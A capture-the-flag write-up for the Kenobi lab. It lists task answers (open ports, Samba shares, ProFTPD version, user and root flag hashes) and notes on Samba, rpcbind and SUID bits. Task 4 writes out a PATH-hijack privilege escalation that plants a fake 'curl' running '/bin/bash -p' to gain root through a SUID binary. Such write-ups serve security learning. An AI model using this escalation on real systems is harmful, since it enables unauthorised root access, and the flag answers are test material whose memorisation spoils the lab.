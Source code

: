 #HackTheBox Kenobi

#Saikat Karmakar | 23 Nov:2020

# Task 1
1. Scan the machine with nmap, how many ports are open?
```
7
```

#Task 2
1. Using the nmap command above, how many shares have been found?
```
3
```
2. Once you're connected, list the files on the share. What is the file can you see?
```
log.txt
```
3. What port is FTP running on?
```
21
```
4. What mount can we see?
```
/var
```

# Task 3
1. Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.
What is the version?
```
1.3.5 //220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.209.89]
```
2. How many exploits are there for the ProFTPd running?
```
3
```
3. What is Kenobi's user flag (/home/kenobi/user.txt)?
```
d0b0f3f53b6caa532a83915e19224899
```

# Task 4
1. What file looks particularly out of the ordinary? 
```
/usr/bin/menu
```
2. Run the binary, how many options appear?
```
3
```
3. What is the root flag (/root/root.txt)?

echo "/bin/bash -p" > curl
chmod +x curl
echo $PATH //to see the path 
export PATH=/home/kenobi:$PATH //export the path 
/usr/bin/menu //exe the file & get root access
```
177b3cd8562289f37382721c28381f02
```

# Notes 
```
Samba: 
	is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often refereed to as a network file system.

	Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.

rpcbind:
	This is just an server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 


Privilege Escalation with Path Variable Manipulation:

	Lets first understand what what SUID, SGID and Sticky Bits are.
	Permission	 On Files	   On Directories
	SUID Bit	 User executes the file with permissions of the file owner	-
	SGID Bit	 User executes the file with the permission of the group owner.
							   File created in directory gets the same group owner.
	Sticky Bit	 No meaning	   Users are prevented from deleting files from other users.

	SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.
```